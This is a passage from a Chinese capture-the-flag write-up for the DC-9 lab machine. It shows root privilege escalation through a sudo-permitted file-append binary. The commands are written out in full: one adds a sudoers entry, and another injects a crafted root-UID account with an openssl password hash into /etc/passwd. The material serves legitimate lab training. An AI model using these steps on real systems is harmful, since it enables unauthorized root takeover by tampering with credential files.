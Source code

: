 然后登陆到 fredf 账号，查看下 fredf 的 sudo 权限, 可以看到 fredf 可以不用密码以 root 权限执 行 / opt/devstuff/dist/test/test 的文件

```
sudo ‐l
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE2gW96IubUIJLFG0MCNsH1qtzeb6ypxrHvG0ecxVxRyIY7DrNtR6mvA/640?wx_fmt=jpeg)

/opt/devstuff/dist/test/test 是一个可执行文件，执行后出现下面的提示，应该是一个 python 脚本转化为的可执行的文件

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEIC7lrT7M3qV1A2fNDKJjDPczawOLb4BicHmrtG61g7xPaiaW47HSAaGQ/640?wx_fmt=jpeg)

可以在上级目录找到同名的 test.py 然后 cat 下内容，应该是由这个文件编译过来的

脚本的作用就是将第一个文件的内容附加到另一个文件里面去

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEFXKqL7HIaDFjzoJV9yUibl7fl2U1XSxm6Ddia6cOdicVI9Oc0YQxNJ65A/640?wx_fmt=jpeg)

这样提权就变得非常简单，这里提供 2 个提权的思路

提权思路 1：往 / etc/sudoers 里面添加内容，让用户可以以 root 的权限去执行命令

创建 / dev/shm/sudoerAdd，内容如下

```
joeyt ALL=(ALL) ALL
```

然后执行

```
sudo /opt/devstuff/dist/test/test /dev/shm/sudoerAdd /etc/sudoers
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEbfwB7anJsILWgfB7An1CianzWZica3icYxWngXH0ZMLFcTz1X3vicuEIlg/640?wx_fmt=jpeg)

然后登陆 joeyt，然后切换成 root 身份，get flag

提权思路 2：添加一个新的用户到 / etc/passwd，然后新添加的用户登陆

这里用 Openssl 来对密码进行加密, 在进行编辑输入到 / tmp/new-passwd

```
openssl passwd ‐1 ‐salt 123456 dfz
```

```
dfz:$1$123456$1VU0YpuL7WOQvLLyYTbbv1:0:0:root:/root:/bin/bash
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwESbKHytTBxdxc65ydVXJddmBiaReL0D0VZNUWicI5N1kyEFlcPtgpjPIA/640?wx_fmt=jpeg)

然后把 / tmp/new-passwd 写入到 / etc/passwd

```
sudo /opt/devstuff/dist/test/test /tmp/new‐passwd /etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEicbolG705ONCx4MSm3HWv2nM1nEs40picic2XudjrQtTO4mOmTXGq9lpw/640?wx_fmt=png)

**靶机下载地址：http://www.five86.com/downloads/DC-9.zip**  
